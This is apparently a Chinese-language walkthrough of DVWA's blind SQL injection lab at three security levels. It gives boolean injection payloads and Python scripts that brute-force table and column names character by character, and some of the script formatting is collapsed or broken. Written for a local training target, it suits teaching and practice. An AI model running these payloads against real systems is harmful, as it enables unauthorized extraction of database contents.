








// 判断表数小于4，结果为true ?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())<4%23&Submit=Submit#
// 判断表数大于1，结果为true ?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>1%23&Submit=Submit#
// 判断表数等于2，结果为true ?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())=2%23&Submit=Submit#
故表的数量为 2
猜解表的名字
再猜解第一张表的名字（使用ascii+substr逐字猜解）
将(select table_name from information_schema.tables where table_schema=database() limit 0,1)作为substr的第一个参数（带上括号），记作 str_a，其中 limit x,y 返回查询结果从下标 x 开始（下标从0开始计数），长度为 y 的记录。
substr( str_a, x, y ) 表示截取 str_a 从下标 x 开始（下标从1开始计数），长度为 y 的字符串作为返回值，这里 substr(str_a, 1, 1) 表示截取查询结果的第一条记录(str_a)的第一个字符出来，ascii函数将其包裹，表示返回第一个字符的 ascii 码，之后对其进行判断。
tips：可以先通过大于小于来确定区间，再用等于获取准确的 ascii 值
1 2 3 4 5 6 7 8 9 10 11 12 13 14
// 判断第一个字符ascii大于100，结果为true ?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100%23&Submit=Submit#
// 判断第一个字符ascii大于120，结果为false ?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>120%23&Submit=Submit#
// 判断第一个字符ascii小于110，结果为true ?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<110%23&Submit=Submit#
// 判断第一个字符ascii小于105，结果为true ?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<105%23&Submit=Submit#
// 判断第一个字符ascii等于103，结果为true ?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103%23&Submit=Submit#
// 判断表名长小于10，结果为true ?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))<10%23&Submit=Submit#
// 判断表名长大于5，结果为true ?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>5%23&Submit=Submit#
// 判断表名长等于9，结果为true ?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9%23&Submit=Submit#
得出表长为 9，使用python脚本爆破
1 2 3 4 5 6 7 8 9 10 11 12
import requests
table1 = '' for i inrange(1, 10): for j inrange(20, 127): u = "http://192.168.249.129/dvwa/vulnerabilities/sqli_blind/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),%d,1))=%d%%23&Submit=Submit#" % (i, j) h = {"Cookie":"PHPSESSID=5sk04vktndkmb5f574o5de8m57; security=low"} r = requests.get(url=u, headers=h) if"User ID exists"in r.text: table1 += chr(j) print(table1) break
访问时要携带cookie信息，在浏览器 f12 的存储一栏里即可找到

同时需要注意，脚本中此处的两个 % 表示转义 %，告诉python将其作为%来处理而不是格式化字符

运行结果如下

由此可知第一个表的表名为guestbook
同理，可确定第二张表的表名长度为5，脚本爆出名字为users（只需修改变量 i 的范围与 limit 1, 1）
猜解字段名
接着就是爆字段名，流程同爆表名一样，先用 count 手动爆出users表的字段数为8
1
?id=1' and (select count(column_name) from information_schema.columns where table_name='users' )=8%23&Submit=Submit#
columns = [] for k inrange(8): column_name = '' for i inrange(1, 65): # mysql字段名长度上限为64 flag = 0# 设置flag位，当一次遍历找不到匹配字符视为该字段名爆破完成 for j inrange(20, 127): sleep(0.2) u = "http://192.168.249.129/dvwa/vulnerabilities/sqli_blind/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit %d,1),%d,1))=%d%%23&Submit=Submit#" % (k, i, j) h = {"Cookie":"PHPSESSID=5sk04vktndkmb5f574o5de8m57; security=low"} r = requests.get(url=u, headers=h) if"User ID exists"in r.text: column_name += chr(j) flag = 1 print("Testing: %s" % column_name) break ifnot flag: print("[+] Column %d found: %s\n" % (k+1, column_name)) columns.append(column_name) break
print("\nDone!") for column in columns: print(columns)
// Get results $num = @mysql_numrows( $result ); if( $num > 0 ) { $html .= '<pre>User ID exists in the database.</pre>'; } else { $html .= '<pre>User ID is MISSING from the database.</pre>'; }
Medium
流程同 Low，不过改成了 POST 传参，且为数字型注入
这里给出修改后的爆表1表名的脚本
1 2 3 4 5 6 7 8 9 10 11 12 13
import requests
table1 = '' for i inrange(1, 10): for j inrange(20, 127): u = "http://192.168.249.129/dvwa/vulnerabilities/sqli_blind/" h = {"Cookie":"PHPSESSID=apovq5mpo6n7um8d9bkcqjo3q2; security=medium"} d = {"id":"1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),%d,1))=%d#" % (i, j), "Submit":"Submit"} r = requests.post(url=u, headers=h, data=d) if"User ID exists"in r.text: table1 += chr(j) print(table1) break
// Check database $getid = "SELECT first_name, last_name FROM users WHERE user_id = $id;"; $result = mysql_query( $getid );
// Get results $num = @mysql_numrows( $result ); if( $num > 0 ) { $html .= '<pre>User ID exists in the database.</pre>'; } else { $html .= '<pre>User ID is MISSING from the database.</pre>'; }
High
分析
点击 “Click here to change your ID. “ 后弹出输入窗口，输入 1 后 submit，显示 “Cookie ID set!”，抓包也可以看到 id 在 Cookie中

判断原页面使用 cookie 中的 id 来查询，修改请求的 url 与 id

发送请求，可以看到响应中已经显示 “MISSING”

当 id 为 1 时，结果又显示正确，所以之前的猜测正确

再尝试去掉 POST 传递的参数，依旧显示正确，故可通过将 cookie 中 id 改为 payload 来泄露数据库信息

之后的流程与 Low，Meduim 类似，为字符型注入
这里同样只给出爆破第一张表表名的脚本，跑起来会比较慢，是源码的问题
1 2 3 4 5 6 7 8 9 10 11 12
import requests
table1 = '' for i inrange(1, 10): for j inrange(20, 127): u = "http://192.168.249.129/dvwa/vulnerabilities/sqli_blind/" h = {"Cookie":"id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),%d,1))=%d#; PHPSESSID=apovq5mpo6n7um8d9bkcqjo3q2; security=high;"% (i, j)} r = requests.post(url=u, headers=h) if"User ID exists"in r.text: table1 += chr(j) print(table1) break